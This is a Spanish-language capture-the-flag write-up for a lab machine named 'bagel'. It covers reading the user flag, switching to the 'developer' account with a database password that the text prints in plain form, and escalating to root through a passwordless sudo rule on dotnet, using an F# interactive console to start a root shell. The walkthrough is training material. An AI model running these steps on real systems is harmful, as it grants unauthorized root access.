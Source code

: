 Podemos leer la flag de usuario.
```console
[phil@bagel ~]$ cat user.txt
d71c8c414532a4...
```

# User Pivoting
Al parecer poco puedo hacer como `phil`, pero recordemos que antes hemos visto una contraseña de acceso a base de datos, cuyo usuario se llamaba `dev` y recordemos que existe un usuario a nivel de sistema llamado `developer`, así que podemos utilizar el combo:
```console
developer:k8wdAYYKyhnjg3K
```

Y así migrar de usuario.
```console
[phil@bagel ~]$ su developer
Password:
[developer@bagel phil]$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

# Privilege Escalation
## Abusing `dotnet` interactive `F#` console
Vemos que `developer` puede ejecutar como `root` y sin introducir contraseña el binario `dotnet`, esto es una cagada enorme ya que podríamos crearnos un aplicación maliciosa .NET para ejecutar un comando a nivel de sistema.
```console
[developer@bagel phil]$ sudo -l
Matching Defaults entries for developer on bagel:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```

O simplemente podemos [revisar GTFOBins](https://gtfobins.github.io/gtfobins/dotnet/#sudo) y vemos que hay un método para escalar privilegios.
```
dotnet fsi
System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;
```

Se utiliza el comando `fsi`, que es para iniciar una consola interactiva de `F#`.
